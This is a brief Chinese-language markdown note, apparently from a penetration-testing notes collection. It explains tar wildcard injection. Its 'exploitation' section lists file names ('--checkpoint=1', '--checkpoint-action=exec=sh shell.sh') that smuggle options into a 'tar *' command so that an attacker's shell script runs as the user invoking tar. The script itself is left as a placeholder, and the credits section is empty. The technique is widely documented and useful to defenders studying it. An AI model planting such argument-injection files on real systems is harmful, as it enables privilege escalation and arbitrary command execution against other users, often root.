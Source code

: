 # TAR命令执行
通过使用检查点操作的tar选项,在检查点之后可以使用指定的操作. 该操作可能是一个恶意的shell脚本，它可以用于在启动tar的用户下执行任意命令. “欺骗”根来使用特定的选项非常简单,这就是通配符的用武之地.	

## 开发

这些文件针对的是"tar *"
```
--checkpoint=1
--checkpoint-action=exec=sh shell.sh
shell.sh   (your exploit code is here)
```

## 致谢
* 



